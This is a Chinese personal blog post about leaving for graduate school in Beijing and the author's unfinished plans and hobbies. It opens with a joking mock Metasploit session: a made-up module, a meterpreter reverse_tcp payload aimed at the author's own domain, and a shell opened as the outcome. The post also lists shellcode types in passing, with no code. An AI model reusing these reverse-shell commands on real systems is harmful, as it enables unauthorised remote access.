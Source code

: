 ```yaml
---
layout: post
title: "新的旅途？"
excerpt: "要去帝都了，前途未卜"
category: Life
tags: [Life]
disqus: true
---
```



    ~/Work/project/shellcode ⮀ ~/metasploit-framework/msfconsole
    
     ______     _     _     _____     _________  
    |  ___ \   | |   | |   |  __ \   |____ ____|  
    | |  | |   | |   | |   | |  | |      | |  
    | |__| |   | |   | |   | |__| |      | |
    |  __  |   | |   | |   |  ___/       | |
    | |  | |   | |   | |   | |           | |
    | |__| |   | |___| |   | |           | |
    |_____/    \______/    |_|           |_|
    
    
           =[ metasploit v4.7.0-dev [core:4.7 api:1.0]
    + -- --=[ 1131 exploits - 638 auxiliary - 180 post
    + -- --=[ 309 payloads - 30 encoders - 8 nops
    
    msf > use exploit/bupt/cleader/happy_hacking
    msf exploit(happy_hacking) > set PAYLOAD bupt/meterpreter/reverse_tcp
    PAYLOAD => bupt/meterpreter/reverse_tcp
    msf exploit(happy_hacking) > set LHOST reverland.org
    LHOST => reverland.org
    msf exploit(happy_hacking) > exploit

    [*] Started reverse handler on 127.0.0.1:4444 
    [*] Starting the payload handler...
    
    [*] Command shell session 1 opened (reverland.org:4444 -> bupt.cleader:58229) at 2013-08-21 17:39:46 +0800
    
    CMD Version 1.4.1
    
    Z:\home\reverland\bupt\cleader\shellcode>
    
    ...

总觉得有太多想做的事情还没有做，别的不说，有很多文章都想写却觉得没力气去写：

1. 写写毕业季，谈谈最后大学的日子，毕业阶段的总总可笑和可叹之处。
2. 把相位去包裹中Goldstein枝切算法和最小二乘法的原理和代码到博客上写完，论文还在bitbucket上呢。最后还要写下有关技术和非技术的观点和总结。
3. windows下的shellcod书写，portbind和reverse tcp的，download and execute的，staged的、添加用户的,linux下bind 端口的，添加用户的，stage的。多态shellcode，编码加密压缩算法在shellcode编码上的应用和变化。
4. 64位汇编和32位的区别和联系，函数调用、系统调用、寄存器等等。

从上面看，大概是写shellcode写疯了，确切地说应该是学写shellcode学疯了。两年前对科学计算大概也是这样的热情吧，然而一个多月前Coursera上machine learning结课之后我却再也没回头看看，更别谈应用了。我虽知热情并非一阵风刮过，时光却总是有限，不让我回头拾起满溢一地的宝珠。

谁知道研究生阶段会做什么，也没问过，也不在乎，听传闻上属于挂羊头卖狗肉的行当，不过传闻总是很可怕的。如果可以，我以后也许想做做律师奸商销售老师公务员什么的。黑客的梦想，让她作为一个美好的爱好和梦随风而逝吧。

还有残念万千，也许会永远残念下去：

1. Python科学计算出第二版了，几年时间变化真快。不知道还有机会看么。其实就这些日子的体验来看，到底还是先接触C和Fortran，Python用户太容易浪费资源了。可惜Coursera上的高性能科学计算没看完，大致讲了讲ipython环境和fortran的用法，以及并行计算等话题。
2. 好好锻炼身体。不想因为天天坐在计算机前挂掉了，最近脖子不舒服。不是说我老在讲珍爱生命远离计算机。
3. 迷上社交工程了，哪天把The art of deception看完，hack不只在技术上啊。
4. 回头看看lisp
5. 继续痴迷地玩shellcode，免不了开始了解更多有关操作系统和通信的东西，什么ELF和PE格式啊等等。接触一大堆各个平台的迥异的工具和理念。
6. 看看前端，看看js，包括jquery/angularjs。
7. 还是很喜欢gimp，前一阵试了试一个上色插件真是太酷了
8. 马拉松么，似乎无影无踪了，但每天还是想自己去跑跑。北邮的操场离马路太近，北师的操场应该是个不错的选择。
9. 得想想怎么锻炼腰部，自从大一打篮球伤着之后一直都不舒服，久坐之后尤其。做俯卧撑时基本上都不是上肢和胸部受不了而是腰实在……

有盼头总是好的，探索和前进的愿望总是可贵的，生活斑斓多彩，有趣的东西一定不在某一个领域。

好奇之心就是黑客精神，前行之路即为人生。

祝大家安好，在人生的道路上凭借信心、智慧和勇气，Happy Hacking！
